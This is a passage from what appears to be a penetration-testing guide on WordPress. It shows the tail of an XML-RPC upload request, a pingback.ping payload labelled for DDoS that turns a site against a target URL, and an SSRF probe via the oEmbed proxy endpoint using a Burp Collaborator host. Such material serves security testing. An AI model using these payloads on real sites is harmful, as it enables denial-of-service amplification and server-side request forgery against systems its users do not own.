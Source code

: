 ```markup
						<name>type</name>
						<value><string>mime/type</string></value>
					</member>
					<member>
						<name>bits</name>
						<value><base64><![CDATA[---base64-encoded-data---]]></base64></value>
					</member>
				</struct>
			</value>
		</param>
	</params>
</methodCall>
```

#### DDOS

```markup
<methodCall>
    <methodName>pingback.ping</methodName>
    <params>
        <param><value><string>http://target/</string></value></param>
        <param><value><string>http://yoursite.com/and_some_valid_blog_post_url</string></value></param>
    </params>
</methodCall>
```

![](<../../.gitbook/assets/image (103).png>)

### /wp-json/oembed/1.0/proxy - SSRF

Try to access _https://worpress-site.com/wp-json/oembed/1.0/proxy?url=ybdk28vjsa9yirr7og2lukt10s6ju8.burpcollaborator.net_ and the Worpress site may make a request to you.

This is the response when it doesn't work:

![](<../../.gitbook/assets/image (184).png>)
